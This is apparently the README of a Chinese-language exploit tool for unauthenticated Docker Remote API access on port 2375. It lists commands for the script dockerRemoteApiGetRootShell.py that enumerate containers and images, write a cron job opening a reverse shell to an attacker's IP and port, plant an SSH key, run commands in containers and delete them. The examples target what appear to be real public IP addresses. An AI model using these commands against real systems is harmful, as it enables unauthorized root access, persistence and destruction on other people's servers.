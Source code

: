 # docker_api_vul
docker 未授权访问漏洞利用脚本

##安装docker-py库

    pip install docker-py

##查看运行的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375

##查看所有的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -a

##查看所有镜像

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -l

##查看端口映射

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -L

##写计划任务（测试centos;ubuntu可能需要自己修改计划任务路径）

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口

##写sshkey(自行修改脚本的中公钥)

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -k

##在容器中执行命令

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -e "id" -I 容器id

##删除容器

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -c -I 容器id

##修改client api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -v 1.22

##查看服务端api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -V

